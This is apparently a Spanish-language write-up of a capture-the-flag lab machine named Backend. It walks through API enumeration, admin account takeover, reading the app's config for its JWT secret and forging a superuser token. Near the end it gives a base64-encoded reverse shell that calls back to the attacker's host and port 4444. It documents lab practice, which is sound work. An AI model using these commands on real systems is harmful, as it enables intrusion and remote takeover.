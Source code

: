```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Backend            |
| Os                     | Linux              |
| Difficulty             | Medium             |
| Points                 | 20                 |
| IP                     | 10.10.11.161       |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Backend/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.11.161
```

![nmap 1](/assets/images/Backend/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.161 -oG allPorts
```

![nmap 2](/assets/images/Backend/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p22,80 10.10.11.161 -oN targeted
```

![nmap 3](/assets/images/Backend/nmap3.png)

Tambien con la version de SSH, podemos obtener la version de Ubuntu ante el que estamos, en este caso seria con una busqueda solamente con _openssh 8.2p1 4ubuntu0.4 launchpad_, **Ubuntu Focal** nos dice la respuesta.

Proseguiremos a usar mas herramientas como WHATWEB, para listar las tecnologias que se estan usando, WFUZZ para listar posibles directorios

```s
whatweb http://10.10.11.161
```

![whatweb](/assets/images/Backend/whatweb.png)

```s
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.161/FUZZ
```

![wfuzz](/assets/images/Backend/wfuzz.png)

Ahora podemos empezar a probar con la ruta /api, y dentro vemos que tambien esta disponible la ruta /v1/user y nos permite ver 2 usuarios, user y admin. Pero como no estamos autenticados, no podemos acceder. Continuando en la ruta user, podemos enumerar los usuarios con numeros enteros, igual con wfuzz podemos hacer lo siguiente:

```s
wfuzz -c --hc=404,422 --hh=4 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.161/api/v1/user/FUZZ
```

Como hicimos en BackendTwoo, usremos un script que nos liste todos los usuarios existentes de la siguiente manera:

Para listar todos los posibles usuarios, lo que haremos, con un script

```s
for i in $(seq 1 20); do curl -s -X GET "http://10.10.11.161/api/v1/user/$i" | jq '.["email"]' | tr -d '"'; done | grep -v "null" > users
#jq Para el formato en jquery y ademas que muestre solo el email
#Para borrar las comillas
#seq 1-5 para hacer un secuenciador del 1 al 5
#grep -v "null" para que no muestre el estado null
#> users    Guarda el resultado en un archivo llamado users para la evidencia
```

![Listing Users](/assets/images/Backend/list_users.png)

Esta busqueda tambien nos habia mostrado una seccion de login y signup, intentaremos ahora hacer una peticion con el metodo POST de la siguiente manera:

```s
curl -s -X POST "http://10.10.11.161/api/v1/user/signup" -H "Content-type: application/json" -d '{"email":"rebick@rebick.com", "password":"rebick123"}' | jq 
```

Ahora vemos que hemos podido agregar un usuario y loggearnos.

![User Added](/assets/images/Backend/user_added.png)

```s
curl -s -X POST "http://10.10.11.161/api/v1/user/login" -d 'username=rebick@rebick.com&password=rebick123' | jq 
```

Una vez dentro, vemos que nos ha generado un JWT al loggearnos. Y lo podemos interpretar con `jwt.io`.

![JWT](/assets/images/Backend/jwt.png)

Entramos ahora en /docs con Burpsuite, agregando la siguiente configuracion en MAtch and replace, para agregar el header:

![Response modified](/assets/images/Backend/burp_match_replace.png)

Ahora podemos recargar la pagina y visualizar la pagina /docs

![Docs view](/assets/images/Backend/docs_view.png)

Vemos varias opciones ahora para escribir apis de manera grafica.

Ahora, de acuerdo a la vulnerabilidad que presentaba BackendTwoo de MassAssignament, pudimos modificar el parametro is_superuser a traves de la API que modificaba la contrasena.

![Setting SuperUser](/assets/images/Backend/set_superuser.png)

Y verificamos con un:

```s
curl -s -X GET 'http://10.10.11.161/api/v1/user/2' -H 'accept: application/json' | jq
```

Vemos que no se ha cambiado, entonces procedemos a intentar otra cosa, conocemos el guid de Admin, asi que si le cambiamos la contrasena podremos ejecutar las APIs de Administrador.

![Logged as SuperUser](/assets/images/Backend/loged_as_admin.png)

Ahora podemos empezar a listar archivos, como la flag y continuaremos buscando la Secret Word para poder hacer nuestro propio JWT. Nos vamos a listar el /proc/self/environ para ver las variables de entorno que se estan ejecutando, y ahi mismo vemos que se lista la aplicacion. 

![Variables de entorno](/assets/images/Backend/variables_entorno.png)

Ahora solo tendremos que visualizar /home/htb/uhc/app/main.py, y vemos que se importa un archivo de configuracion. 

![Aplication](/assets/images/Backend/application.png)

Asi que ahora accederemos a la ruta /home/htb/uhc/app/core/config.py

![Secret](/assets/images/Backend/Secret_jwt.png)

Una vez con el secret, podemos agregar el parametro debug: true y de una vez hacemos nuestro usuario superadmin. Entonces ahora libremente podemos ejecutar un comando con:

```s
curl -s -X GET http://10.10.11.161/api/v1/admin/exec/whoami -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU1MzcyNTQ1LCJpYXQiOjE2NTQ2ODEzNDUsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOnRydWUsImRlYnVnIjp0cnVlLCJndWlkIjoiYWFlMGZjNjQtZGQyYy00ZjA3LTg0NDktMDU4Yjc2ODI2ZjY5In0.ABMueJp_DhAwqGqEhmUPAgH-dAbXlsvuOP1ErH_-FtE' | jq
```

![CMD test](/assets/images/Backend/cmd_test.png)

Procederemos ahora a ejecutar un reverse shell como en la maquina backendtwoo, en la que como pasa por URL, tendremos que codificar la reverse y al ejecutarse decodificarla. El script, como lo hicimos en AdmirerToo sera:

```s
curl -s -X GET "http://10.10.11.161/api/v1/admin/exec/echo%20YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzQ0NDQgMD4mMScK|base64%20-d|bash" -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU1MzcyNTQ1LCJpYXQiOjE2NTQ2ODEzNDUsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOnRydWUsImRlYnVnIjp0cnVlLCJndWlkIjoiYWFlMGZjNjQtZGQyYy00ZjA3LTg0NDktMDU4Yjc2ODI2ZjY5In0.ABMueJp_DhAwqGqEhmUPAgH-dAbXlsvuOP1ErH_-FtE' | jq
```

![Reverse shell](/assets/images/Backend/reverse.png)

Para hacer una shell iteractiva:

```s
script /dev/null -c bash
```

Ctrl+Z

```s
stty raw -echo; fg
#ENTER
reset xterm

export TERM=xterm
```

Para las filas

```s
#Consulta de tamano
stty size
45  174
#Para definir
stty rows 45 colums 174
```

Ahora, dentro de uhc, vemos un archivo llamado auth.log, en el cual si le damos un cat vemos que hay intentos de inicio de sesion, tambien se observa que hay un intento de contrasena ingreados, con un su root, ingresamos la contrasena y habremos terminado la maquina.

![Root access](/assets/images/Backend/root.png)

![Powned](/assets/images/Backend/pwned.png)